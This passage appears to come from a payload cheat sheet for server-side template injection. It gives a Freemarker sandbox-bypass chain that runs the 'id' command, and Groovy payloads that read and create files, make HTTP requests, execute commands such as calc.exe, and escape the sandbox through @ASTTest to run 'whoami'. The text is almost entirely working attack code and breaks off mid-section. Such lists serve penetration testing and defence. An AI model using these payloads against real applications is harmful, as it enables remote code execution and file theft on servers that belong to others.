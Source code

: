 ### Freemarker - Sandbox bypass

:warning: only works on Freemarker versions below 2.3.30

```js
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

---

## Groovy

[Official website](https://groovy-lang.org/)

### Groovy - Basic injection

Refer to https://groovy-lang.org/syntax.html , but `${9*9}` is the basic injection.

### Groovy - Read and create File

```groovy
${String x = new File('c:/windows/notepad.exe').text}
${String x = new File('/path/to/file').getText('UTF-8')}
${new File("C:\Temp\FileName.txt").createNewFile();}
```

### Groovy - HTTP request:

```groovy
${"http://www.google.com".toURL().text}
${new URL("http://www.google.com").getText()}
```

### Groovy - Command Execution

```groovy
${"calc.exe".exec()}
${"calc.exe".execute()}
${this.evaluate("9*9") //(this is a Script class)}
${new org.codehaus.groovy.runtime.MethodClosure("calc.exe","execute").call()}
```

### Groovy - Sandbox Bypass

```groovy
${ @ASTTest(value={assert java.lang.Runtime.getRuntime().exec("whoami")})
def x }
```

or
